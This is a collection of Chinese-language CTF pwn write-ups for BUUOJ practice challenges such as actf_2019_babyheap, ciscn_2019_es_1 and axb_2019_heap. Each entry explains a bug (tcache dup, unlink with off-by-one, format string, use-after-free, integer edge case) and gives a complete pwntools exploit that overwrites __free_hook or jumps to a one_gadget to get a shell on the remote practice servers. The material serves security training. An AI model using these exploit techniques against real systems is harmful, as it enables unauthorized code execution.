# actf_2019_babyheap
tcache dup
libc-2.27_0ubuntu1_amd64
这道题除了地址随机，其他保护都开了。有 tcache dup 漏洞。
经典的使用块去管理用户块。管理块先存放用户块地址，然后存放输出函数地址。
释放块后形成块链，由于 tcache 只会清空 8 字节存放 fd，所以输出函数地址不会被清除。利用这点输出 tcache bin 链上某个块的地址，实现堆地址泄露。
构造 管理块 -> 管理块，在后者中输入块地址和 system 函数地址。输入的地址对应的块为存放 "/bin/sh\0" 字符串的块。
每次输出菜单后都会调用 system，产生内核用户互换，导致调试中断。所以只能该调式的地方都加行
gdb.attach()。
#!/usr/bin/python3 | |
from pwn import * | |
context(arch='amd64', log_level='debug') | |
filename = 'ACTF_2019_babyheap' | |
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so' | |
libc = ELF(libcfile) | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',27387) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
def dbg(): | |
if mode==2: | |
gdb.attach(p, 'b *0x400D69') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def choose(x): | |
p.sendlineafter(b'Your choice: ', str(x).encode()) | |
def mal(size, content=b'a'*4): | |
choose(1) | |
p.sendlineafter(b'Please input size: \n', str(size).encode()) | |
p.sendafter(b'Please input content: ', content) | |
def free(index): | |
choose(2) | |
p.sendlineafter(b'Please input list index: \n', str(index).encode()) | |
def dump(index): | |
choose(3) | |
dbg() | |
p.sendlineafter(b'Please input list index: \n', str(index).encode()) | |
sys_p = e.plt['system'] | |
mal(0x18) | |
mal(0x38) | |
free(0) | |
free(1) | |
dump(1) # get add: r0 | |
p.recvuntil(b'Content is \'') | |
addr = u64(p.recvuntil(b'\'')[:-1].ljust(8,b'\0')) | |
print('addr: %#x'%addr) | |
dbg() | |
# 20 20 20 40 | |
mal(0x18, p64(addr+0x40)+p64(sys_p)) # write in h0 | |
mal(0x38, b'/bin/sh\0') | |
dump(0) | |
p.interactive() |
# ciscn_2019_es_1
** 考点：**heap, tcache dup, free_hook
**libc 版本：**ibc6_2.27-3ubuntu1_amd64
块管理块。释放只释放用户块。释放后地址不清空。
分配超过 0x400 大小的块然后释放，再打印，泄露 libc 地址。
tcache dup 对 free_hook 进行读写，将其修改为 system 的地址。最后释放含 "/bin/sh\0" 字符串的块。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(arch='amd64', log_level='debug') | |
filename = 'ciscn_2019_es_1' | |
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so' | |
libc = ELF(libcfile) | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',28322) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b *$rebase(0x1621)') | |
def choose(x): | |
p.sendlineafter(b'choice:', str(x).encode()) | |
def mal(size, name, content): | |
choose(1) | |
p.sendlineafter(b's name', str(size).encode()) | |
p.sendafter(b'input name:\n', name) | |
p.sendafter(b'compary call:\n', content) | |
def free(index): | |
choose(3) | |
p.sendlineafter(b'Please input the index:\n', str(index).encode()) | |
def dump(index): | |
choose(2) | |
p.sendlineafter(b'Please input the index:\n', str(index).encode()) | |
mal(0x28, b'a', b'head 0') | |
mal(0x418, b'a', b'head 1') | |
mal(0x18, b'/bin/sh\0', b'head 2') | |
free(0) | |
free(0) | |
dump(0) | |
p.recvuntil(b'name:\n') | |
r0u = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0')) | |
free(1) | |
dump(1) | |
p.recvuntil(b'name:\n') | |
ma_ = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0')) | |
mh_a = ma_ - 96 - 0x10 | |
obj = LibcSearcher('__malloc_hook', mh_a) | |
libcbase = mh_a - obj.dump('__malloc_hook') | |
fh_a = libcbase + obj.dump('__free_hook') | |
sys_a = libcbase + obj.dump('system') | |
mal(0x418, b'a', b'head 3') | |
mal(0x28, p64(fh_a), b'h4') | |
mal(0x28, b'getshell!', b'h5') | |
mal(0x28, p64(sys_a), b'h6') | |
free(2) | |
p.interactive() |
# axb_2019_heap
** 考点：**fmtstr, unlink, off_by_one
**libc 版本：**libc6_2.23
该程序开启了全保护，一开始有个 printf 的格式化字符串漏洞。
分配函数略显复杂。分配时，若 key 变量值不为 43，那么将不能分配大小小于 0x80，即属于 fastbin 范围的块。之后有个分配后地址合法性校验，分配得到的地址不能过于接近储存块地址的数组。
含有编辑函数。释放函数清空了指针。
对块进行读写的函数 get_input 存在 off by one 漏洞。当已输入字符数等于大于给定值 + 1 后才退出。

# 利用
一开始的格式化字符串漏洞只能利用一次，因此只能利用其泄露地址。泄露代码段地址可以推测.bss 段地址，由此计算出 notelist 真实地址。泄露 libc 地址用于获取 system 函数地址。拿到数组地址后可以利用 unlink，由此实现任意地址读写，将 free_hook 填入 system 地址，后面的懂的都懂。
若一开始格式化字符串使用的输入函数是 read，那么可以利用低字节覆盖，将 main 函数地址覆盖为 key 变量的地址，然后利用 % n 修改 key 为 43。但第三字节需要爆破。
若没有 canary 保护，且 read 函数输入，则可以溢出覆盖返回地址低位，再次利用格式化字符串漏洞。
这题有个很坑的点。分配函数内有个 check_pass 函数验证分配地址合法性。由于 unlink 后，p 和 p 储存的内容只有 0x18 的差距，必定无法通过验证，所以一开始我以为必定用不成 unlink。但是！都 unlink 任意地址读写了，为啥还会需要再去分配 fake chunk 之类的呢？而编辑函数内没有该检测，所以 unlink 利用没有收到任何影响。这次属于是被出题者骗到了。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(arch='amd64', log_level='debug') | |
filename = 'axb_2019_heap' | |
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so' | |
libc = ELF(libcfile) | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',29478) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b printf') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
def choose(x): | |
p.sendlineafter(b'>> ', str(x).encode()) | |
def mal(index, size, content): | |
choose(1) | |
p.sendlineafter(b'(0-10):', str(index).encode()) | |
p.sendlineafter(b'Enter a size:\n', str(size).encode()) | |
p.sendafter(b'Enter the content: \n', content) | |
if len(content)<size: | |
p.send(b'\n') | |
def free(index): | |
choose(2) | |
p.sendlineafter(b'Enter an index:\n', str(index).encode()) | |
def edit(index, content): | |
choose(4) | |
p.sendlineafter(b'Enter an index:\n', str(index).encode()) | |
p.sendafter(b'Enter the content: \n', content) | |
key = 0x202040 | |
notelist = 0x202060 | |
strind = 7.5 | |
lsmind = 15 | |
mainind = 11 | |
banner = 0xb42 | |
payload = b'%11$p,%15$p' | |
p.sendlineafter(b'name:', payload) | |
p.recvuntil(b'Hello, ') | |
main_a = int(p.recvuntil(b',')[:-1],16) | |
lsm_ = int(p.recvuntil(b'\n')[:-1], 16) | |
print('main:'+hex(main_a)) | |
print('lsm:'+hex(lsm_)) | |
notelist += main_a - 0x1186 | |
lsm_a = lsm_ - 240 | |
obj = LibcSearcher('__libc_start_main', lsm_a) | |
libcbase = lsm_a - obj.dump('__libc_start_main') | |
fh_a = libcbase + obj.dump('__free_hook') | |
sys_a = libcbase + obj.dump('system') | |
mal(0, 0x88, b'aa') | |
mal(1, 0x88, b'aa') | |
mal(2, 0x88, b'aa') | |
mal(3, 0x88, b'/bin/sh\0') | |
c1i = notelist + 0x10 | |
payload = flat({0:[0, 0x81, c1i-0x18, c1i-0x10], 0x80:[0x80]}) + p8(0x90) | |
edit(1, payload) | |
free(2) | |
edit(1, flat({8:fh_a})+b'\x80\n') | |
edit(0, p64(sys_a)+b'\n') | |
free(3) | |
p.interactive() |
# oneshot_tjctf_2016
** 考点：**one_gadget
拥有一次读取任意地址内容和跳转到任意地址的机会。
读取任意 libc 函数泄露 libc 地址，然后跳转到 one_gadget。
libc 版本读取后为 libc6_2.23-0ubuntu10_amd64 。

对对应文件执行 one_gadget 查询。

执行跳转前程序将 eax 寄存器清零，因此直接选择第一个 one_gadget。

#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher3 import LibcSearcher | |
context(log_level='debug') | |
e=ELF('./oneshot_tjctf_2016') | |
#p=process('./oneshot_tjctf_2016') | |
p=remote('node4.buuoj.cn',26936) | |
#gdb.attach(p, 'b __isoc99_scanf') | |
lsm_g = e.got['__libc_start_main'] | |
p.sendlineafter(b'Read location?', str(lsm_g).encode()) | |
p.recvuntil(b'Value: ') | |
lsm_a = int(p.recvuntil(b'\n'),16) | |
obj = LibcSearcher('__libc_start_main', lsm_a) | |
libcbase = lsm_a -obj.dump('__libc_start_main') | |
onegad = 0x45216 | |
onegad += libcbase | |
p.sendlineafter(b'Jump location?', str(onegad).encode()) | |
p.interactive() |

# 护网杯_2018_gettingstart
** 考点：** 浮点数储存
查看汇编找到浮点数对应的十六进制，缓冲区溢出将对应变量覆盖为对应值。


#!/usr/bin/python3 | |
from pwn import * | |
context(os='linux', arch='amd64', log_level='debug') | |
filename = '2018_gettingStart' | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process("./"+filename) if mode else remote('node4.buuoj.cn',26360) | |
fl = 0x3FB999999999999A | |
num = 0x7FFFFFFFFFFFFFFF | |
p.send(flat({0x18:[num, fl]})) | |
p.interactive() | |
p.close() |

# gyctf_2020_some_thing_exceting
** 考点：**heap, uaf
**libc 版本：**libc6_2.23
未开启 PIE。

程序开始将 flag 放在.bss 段上。

free 后不清空地址，块管理块模式。
对某个 0x10 管理块释放后分配为用户块，将 flag 的地址填入，然后输出。
#!/usr/bin/python3 | |
from pwn import * | |
context(arch='amd64', log_level='debug') | |
filename = 'gyctf_2020_some_thing_exceting' | |
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so' | |
libc = ELF(libcfile) | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',28272) | |
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b ') | |
def choose(x): | |
p.sendlineafter(b'> ', str(x).encode()) | |
def mal(size, content, size1, content1): # one time two malloc | |
choose(1) | |
p.sendlineafter(b"> ba's length : ", str(size).encode()) | |
p.sendafter(b'> ba : ', content) | |
p.sendlineafter(b"> na's length : ", str(size1).encode()) | |
p.sendafter(b'> na : ', content1) | |
def free(index): | |
choose(3) | |
p.sendlineafter(b'> Banana ID : ', str(index).encode()) | |
def dump(index): | |
choose(4) | |
p.sendlineafter(b'> SCP project ID : ', str(index).encode()) | |
flag = 0x6020A8 | |
mal(0x18, b'a', 0x28, b'a') | |
mal(0x28, b'a', 0x28, b'a') | |
mal(0x18, b'a', 0x28, b'a') | |
free(0) | |
free(1) | |
mal(0x18, p64(flag)+p64(flag), 0x28, b'a') | |
dump(0) | |
p.interactive() |

# *wustctf2020_number_game
** 考点：**int 数据
看代码，若输入的数字小于 0 且取负后仍小于 0，那么可以 getshell。

int 范围中负数范围比正数多 1。对于 32 位程序而言这个多出来的数据为 -2147483648 。
这个数二进制最高位为 1，其他位为 0。取负是先取反后加一，这个数取反后最高位为 0 其他为 1。若加一，每一位都会进位，最后值依旧是最高位为 1，其他位为 0，即为本身。

输入该数，直接 getshell。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
#p=process('./wustctf2020_number_game') | |
p=remote('node4.buuoj.cn',26335) | |
num = -2147483648 | |
p.sendline(str(num).encode()) | |
p.interactive() |
